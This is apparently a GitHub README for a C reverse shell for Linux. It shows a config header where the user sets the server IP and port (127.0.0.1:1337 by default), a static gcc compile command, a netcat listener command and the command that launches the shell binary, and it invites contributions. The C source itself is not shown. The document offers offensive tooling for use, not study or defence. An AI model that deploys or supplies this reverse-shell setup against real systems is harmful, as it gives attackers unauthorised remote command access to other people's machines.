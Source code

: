 ### For Linux Machines!
<h1 align="center">
	<img src="https://img.icons8.com/ios-filled/344/console.png" width="150px"><br>
    Reverse Shell written in C.
</h1>

### Configuration
Go into `includes/config.h` to change all this.
```c
#pragma once

#define SERVER_IP "127.0.0.1" // Change to your server IP
#define SERVER_PORT 1337 // Changing this is optional
```
### Compiling
```
gcc -static -o reverse_shell main.c
```
### Running
```
[user@linux]$ nc -lvvp 127.0.0.1 1337
-----------------------
[user@linux]$ ./reverse_shell
``` 
### Contributions 🎉
###### If you're interested in contributing simply open a pull request!
